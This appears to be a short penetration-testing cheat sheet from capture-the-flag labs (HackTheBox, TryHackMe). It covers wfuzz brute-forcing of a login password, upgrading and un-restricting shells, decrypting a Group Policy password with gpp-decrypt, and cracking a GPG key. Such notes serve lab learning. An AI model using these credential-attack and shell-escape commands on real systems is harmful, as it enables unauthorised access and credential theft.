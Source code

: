 wfuzz -c -z range,00-99 -d "username=admin&password=adminFUZZadmin&submit=Submit" -X POST -u http://10.10.X.X/index.php -t 1 -s 20 // Fuzzing numbers on post parameter. 

## TTY-Shell

This will give you a slightly better shell, but without those magical features. To get a fully functioning TTY shell:

Press Ctrl-z to background the current shell, then on your terminal type:
stty raw -echo; fg <enter><enter>

Then on your shell:

stty rows 36 cols 136
export TERM=xterm-256color 

## rbash bash restricted problems 

ssh session shows error when run cammand

    h4rdy@fortress:~$ ls
    rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names

ssh -i id_rsa h4rdy@fortress -t "bash --noprofile -i"

PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games

## Gpp Decrypt

GPO Password Decrypt

```
┌──(arun㉿kali)-[~/AD/AD-HTB-Tracks/Active]
└─$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

## GPG in Linux to Encrypt Files Decrypt

Using PGP encryption encrypt the file _credential.pgp_  to decrypt

Import the key:

	gpg --import tryhackme.asc

Decrypt the file:

	gpg --decrypt credentials.pgp

but its ask passwd 

lets do crack tryhackme.asc using gpg2johns

https://www.dummies.com/article/technology/computers/operating-systems/linux/how-to-use-gpg-in-linux-to-encrypt-files-255873
